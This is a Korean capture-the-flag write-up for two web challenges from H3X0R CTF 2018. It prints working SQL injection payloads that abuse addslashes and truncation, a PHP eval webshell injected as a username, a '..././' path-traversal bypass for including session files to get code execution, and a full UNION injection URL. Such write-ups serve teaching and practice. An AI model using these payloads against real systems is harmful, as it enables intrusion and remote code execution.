 # H3X0R CTF 2018
## goodaegi board (490pts) - solver (1)

구대기 보드는 SQL Injection과 LFI, PHP 세션을 이용해 RCE하는 문제다.

의도한 풀이의 전체적인 흐름은 SQL Injection으로 PHP 코드를 username에 넣어주고 해당 계정으로 로그인해서

LFI로 계정의 세션을 포함시켜 RCE로 flag.php 읽어오는걸 의도했다. (Session to RCE)

자세한 풀이는 아래를 참고하자

--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join 함수에서 SQL Injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 2 번째 줄부터 4 번째 줄을 확인하면 addslashes를 거치고 substr로 문자열을 자르고 있다.

addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

이유는 'a' * 99 뒤에 single quote(')가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고

'a' * 99 + backslashes + single quote가 되면서 '가 잘리게 된다.

즉 아래와 같은 꼴이 된다.

``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 PHP 코드를 넣어주고 가입하면 된다

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login
username : ``<? eval($_GET[x]);?>``
password : ``a``

---------------------------------------------
### PHP Session to RCE PoC

Session to RCE의 간단한 예시를 들어보면

PHP에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?

세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.

우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.

또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion한다면 RCE가 가능하다.

* 세션 파일명 : ``sess_[random_string]`` 여기서 random_string은 클라이언트가 가지고 있는 PHPSESSID 값이다.

ex) PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0; => sess_fqs54b8ies3uhuhlttlb3lq3d0


단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 SQL Injection을 활용해야 한다.


--------------------------------------------
### LFI to RCE (session inclusion)
이제 세션에 PHP 코드를 넣는데 성공했다.

LFI는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.

해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // str to lowercase and remove whitespace
	$page = str_replace(chr(0), '', $page); // remove null byte
	$page = str_replace('../', '', $page); // remove '../'
	if(substr($page, -4, 4) == 'html') { // check extension
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.

그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.

ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``

``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``

RCE가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.


## sqlgame revenge (480pts) - solver (2)

MySQL Injection 문제다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
